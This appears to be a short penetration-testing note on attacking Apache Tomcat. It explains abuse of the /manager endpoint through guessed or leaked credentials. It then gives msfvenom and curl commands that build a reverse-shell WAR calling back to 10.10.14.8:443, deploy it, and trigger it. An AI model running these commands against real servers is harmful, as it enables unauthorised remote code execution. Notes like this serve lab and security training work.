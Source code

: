 ```yaml
---
tags:
  - hack
---
```

# Attacking Tomcat

Apache Tomcat is a Java-based web application stack that was very popular 20 years ago and is still used in legacy environments where applications have been built on Jakarta Server Pages (JSP), also known as JavaServer Pages. Tomcat is three components: Catalina, the servlet container, Coyote, its HTTP connector, and Jasper which is the core JSP engine. Tomcat is still under active development in 2024.

## Privileged Endpoints

The `/manager` and `/host-manager` endpoints are special. The first one can be used to upload a malicious web application archive, or WAR file. Guessing common credentials can easily lead to RCE. If the system has a Local File Inclusion (LFI) vulnerability, plaintext credentials for one or both of those administrative endpoints are potentially readable.

## Remote Code Execution

### Web Application Archive (WAR) File

With credentials for the `/manager` endpoint, an attacker may upload a malicious Web Application Archive (WAR) file. Such a file can easily be generated using `msfvenom`, as in this example:

```console
$ msfvenom -p java/shell_reverse_tcp lhost=10.10.14.8 lport=443 -f war -o hax.war
Payload size: 13030 bytes
Final size of war file: 13030 bytes
Saved as: hax.war
```

### Uploading a WAR File

This file can be uploaded from the command line, assuming valid credentials for the `/manager/text` endpoint:

```console
$ curl -u 'tomcat:$3cureP4s5w0rd123!' http://target:8080/manager/text/deploy?path=/hax --upload-file hax.war
OK - Deployed application at context path [/hax]

```

Then, trigger the reverse shell:

```text
$ curl http://target:8080/hax
```
